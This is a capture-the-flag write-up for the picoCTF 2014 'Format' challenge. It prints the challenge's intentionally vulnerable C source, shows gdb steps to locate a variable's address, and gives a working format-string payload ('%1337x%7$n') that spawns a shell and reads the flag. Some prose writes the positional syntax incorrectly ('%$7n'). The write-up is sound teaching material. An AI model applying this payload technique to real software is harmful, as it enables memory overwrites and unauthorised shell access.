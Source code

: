 # Pico-CTF 2014: Format

**Category:** Binary Exploitation
**Points:** 70
**Total Solves:** Not Available
## Problem Description:

> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c).

```
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int secret = 0;

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

int main(int argc, char **argv){
    int *ptr = &secret;
    printf(argv[1]);

    if (secret == 1337){
        give_shell();
    }
    return 0;
}
```

## Write-up

> This program has format string vulnerability at line `printf(argv[1]);`. If we give format specifiers as a input, then while printing printf will start popping up the varaible, of type specified in format string, from stack. We can also write at specified location with printf with `%n` specifier. Suppose if we give %d as input then printf will print a integer from stack. Using this exploit we can pop out the value of variable `secret`. 
To print multiple integers form stack we can use give format string as %$1d, it will print the 1st integer from stack. We can give input as `%1$d,%2$d,%3$d,%4$d,%5$d,%6$d` and printf will print 6 integers from stack.

> To get the shell we need to write 1337 at the address of variable secret. First we need the address of secret which is stored in `int *ptr`. 

```c
pico74093@shell:/home/format$ gdb ./format
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./format...(no debugging symbols found)...done.
(gdb) p &secret
$1 = (<data variable, no debug info> *) 0x804a030 <secret>
```

> Now we know the address of variable secret which is 0x804a030. We need to write 1337 to this address in  order to be able to get shell.
> To write at this address we can use %n specifier but we need to specify the address 0x804a030 to printf that this is the location where we want to write. To gets its location on stack we can use gdb:

```bash
(gdb) r "%p %p %p %p %p %p %p %p %p %p %p %p"
Starting program: /home/format/format "%p %p %p %p %p %p %p %p %p %p %p %p"
0xffffd764 0xffffd770 0xf7e5242d 0xf7fc93c4 0xf7ffd000 0x804852b 0x804a030 0x8048520 (nil) (nil) 0xf7e38a83 0x2[Inferior 1 (process 18944) exited normally]
```

> We can see that address is located at 7th position in the pointers available at stack. We can specify it using `%$7n`.

> Using this we create our standard format string : `%1337x%$7n`. To get better understanding of format string exploits read [here](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html). While executing we need to pass `%1337x%7\$n` because otherwise shell will treat $n as varaible.

```bash
pico74093@shell:/home/format$ ./format "%1337x%7\$n"
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                $ ls
flag.txt  format  format.c  Makefile
$ cat flag.txt
who_thought_%n_was_a_good_idea?
```

> Flag is : **who_thought_%n_was_a_good_idea?**

## Other write-ups and resources

* None

